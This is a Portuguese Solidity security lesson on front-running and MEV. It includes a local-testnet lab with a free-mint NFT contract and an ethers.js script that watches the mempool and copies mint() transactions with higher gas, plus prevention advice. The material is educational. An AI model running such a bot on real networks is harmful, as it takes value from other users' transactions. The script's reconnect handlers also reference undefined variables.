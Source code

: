 # S11. Front-running de Transações

Recentemente, tenho revisado meus conhecimentos em solidity para consolidar os detalhes e também escrever um "Guia Simplificado de Solidity" para iniciantes (os especialistas em programação podem procurar outros tutoriais), com atualizações semanais de 1 a 3 lições.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo do WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais são de código aberto no GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos falar sobre o front-running de contratos inteligentes. Estima-se que arbitradores em Ethereum lucraram $1.2 bilhão através de ataques "sandwich" [fonte](https://dune.com/chorus_one/ethereum-mev-data).

## Front-running

### Front-running tradicional
O front-running surgiu inicialmente nos mercados financeiros tradicionais como uma competição puramente baseada no interesse pessoal. Nos mercados financeiros, a discrepância de informações deu origem a intermediários financeiros que podiam lucrar ao saberem primeiro de certas informações do setor e reagirem rapidamente. Esses ataques principalmente ocorrem em negociações de ações e em registros de domínios.

Em setembro de 2021, Nate Chastain, diretor de produto da OpenSea, foi descoberto lucrando ao comprar antecipadamente NFTs que seriam exibidos na página inicial da OpenSea.
Ele usava informações privilegiadas para obter uma vantagem desleal, sabendo quais NFTs a OpenSea promoveria na página inicial, ele comprava antes da exibição na página inicial para depois vendê-los quando os NFTs fossem para a página inicial. No entanto, uma pessoa conseguiu combinar o timestamp da transação do NFT com uma promoção suspeita de NFT na página inicial da OpenSea e descobriu essa atividade ilegal, levando Nate a ser processado.

Outro exemplo de front-running tradicional é quando há insider trading em tokens antes de serem listados em exchanges conhecidas como Binance e Coinbase. Após o anúncio de listagem, o preço do token tende a subir significativamente, e é nesse momento que os front-runners vendem para lucrar.

### Front-running em Blockchain

Front-running em blockchain refere-se a pesquisadores ou mineradores que inserem suas transações antes de outras, com o objetivo de capturar valor. Em blockchain, os mineradores têm a capacidade de aumentar o `gas` ou utilizar outros métodos para colocarem suas transações antes das demais e lucrarem com isso. No blockchain da Ethereum, o `MEV` mede esses lucros.

Geralmente, a maioria das transações de usuários são reunidas na Mempool antes de serem incluídas em um bloco na blockchain Ethereum. Os mineradores procuram priorizar transações com taxas mais altas para maximizarem seus lucros. Além disso, alguns robôs de `MEV` monitoram a Mempool em busca de transações lucrativas. Por exemplo, uma transação de troca (`swap`) em uma exchange descentralizada com um alto valor de deslizamento pode ser alvo de um ataque "sandwich": ajustando o `gas`, o negociante coloca uma ordem de compra antes e uma ordem de venda depois, lucrando com a diferença. Isso é semelhante à manipulação do preço de mercado.

![](./img/S11-1.png)

## Prática de Front-running

Se você dominar o front-running, será considerado um cientista do blockchain de nível iniciante. A seguir, vamos praticar um front-running ao uma transação de mint de um NFT. As ferramentas que utilizaremos são:
- A ferramenta `anvil` da `Foundry` para criar uma blockchain de teste local, certifique-se de instalar [foundry](https://book.getfoundry.sh/getting-started/installation) previamente.
- O `Remix` para implantação e mint do contrato NFT.
- Um script `etherjs` para escutar a Mempool e realizar o front-running.

**1. Inicializar uma blockchain de teste local com a Foundry:** Após ter instalado o `foundry`, na linha de comando, digite `anvil --chain-id 1234 -b 10` para criar uma blockchain de teste local, com chain-id 1234 e produzindo um bloco a cada 10 segundos. Após a inicialização bem sucedida, serão exibidos alguns endereços e chaves privadas de teste, cada conta com 10000 ETH. Você pode utilizá-las para testar.

**2. Conectar o Remix à blockchain de teste:** Acesse a página de implantação do Remix e no menu suspenso `Environment`, selecione `Foundry Provider` para conectar o Remix à blockchain de teste.

**3. Implante o contrato NFT:** No Remix, implante um contrato NFT de `freemint` (mint grátis). Esse contrato possui uma função `mint()` que permite o mint grátis de NFTs.

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// Tentaremos fazer um front-run de uma transação de mint gratuita
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // Construtor, inicializa o nome e símbolo da coleção de NFTs
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // Função de mint
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. Implante o script de front-running ethers.js:** Em resumo, o script `frontrun.js` escuta as transações pendentes na Mempool da blockchain de teste, filtra as transações que chamam a função `mint()` e, em seguida, replica e aumenta o `gas` para realizar o front-running. Se você não estiver familiarizado com `ether.js`, pode ler o [Guia Simplificado de Ethers da WTF](https://github.com/WTFAcademy/WTF-Ethers).

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. Criar o provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] Conectado ao chain ID ${res.chainId}`));

// 2. Criar um objeto de interface para decodificar os detalhes da transação.
const iface = new utils.Interface([
    "function mint() external",
])

// 3. Criar uma carteira para enviar transações de front-running
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. Escutar as transações pendentes do mint, obter os detalhes da transação e decodificar.
    console.log("\n4. Escutar transações pendentes, obter o txHash e mostrar os detalhes da transação.")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // Obter detalhes da tx
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // Filtrar os dados da transação pendente
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // Mostrar o txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] Escutando transação pendente: ${txHash} \r`);

                    // Mostrar os detalhes da transação decodificados
                    let parsedTx = iface.parseTransaction(tx)
                    console.log("Detalhes decodificados da transação pendente:")
                    console.log(parsedTx);
                    // Decodificar os dados da transação
                    console.log("Transação bruta")
                    console.log(tx);

                    // Construir a tx de front-running
                    const txFrontrun = {
                        to: tx.to,
                        value: tx.value,
                        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
                        maxFeePerGas: tx.maxFeePerGas * 1.2,
                        gasLimit: tx.gasLimit * 2,
                        data: tx.data
                    }
                    // Enviar a transação de front-running
                    var txResponse = await wallet.sendTransaction(txFrontrun)
                    console.log(`Realizando front-running da transação`)
                    await txResponse.wait()
                    console.log(`Transação de front-running bem-sucedida`)                
                }
            }
        }
    });

    provider._websocket.on("error", async () => {
        console.log(`Não foi possível conectar a ${ep.subdomain} Tente novamente em 3s...`);
        setTimeout(init, 3000);
      });

    provider._websocket.on("close", async (code) => {
        console.log(
            `Conexão perdida com o código ${code}! Tentando reconectar em 3s...`
        );
        provider._websocket.terminate();
        setTimeout(init, 3000);
    });    
};

main()
```

**5. Chamar a função `mint()`:** Na página de implantação do Remix, chame a função `mint()` do contrato Freemint para realizar o mint do NFT.

**6. O script detecta a transação e realiza o front-running:** No terminal, você verá que o script `frontrun.js` conseguiu detectar a transação e realizar o front-running com sucesso. Se você consultar a função `ownerOf()` do contrato NFT e verificar o tokenID 0, verá que o detentor é o endereço da carteira usada pelo script de front-running, confirmando o sucesso do front-running!.

![](./img/S11-4.png)

## Métodos de Prevenção

O front-running é um problema comum em blockchains públicas como Ethereum. Não podemos eliminá-lo, mas podemos reduzir os lucros do front-running ao minimizar a importância da ordem e do tempo das transações:

- Utilize um esquema de precompromisso (commit-reveal scheme).
- Utilize dark pools, onde as transações dos usuários não entram na Mempool pública, indo direto para os mineradores. Por exemplo, flashbots e TaiChi.

## Conclusão

Nesta lição, abordamos o conceito de front-running em Ethereum, uma prática também conhecida como arbitragem de informações. Esse tipo de ataque, originado no mercado financeiro tradicional, é mais fácil de ser realizado em blockchains devido à transparência das informações. Realizamos um exemplo de front-running no tempo: front-runnar uma transação de mint de um NFT. Quando transações semelhantes forem necessárias, é melhor adotar medidas como pools ocultos ou leilões em lote para evitar esse tipo de ataque. O front-running é um problema comum em blockchains públicas como Ethereum, mas podemos reduzir os lucros dos front-runners ao minimizar a importância da ordem e do tempo das transações.

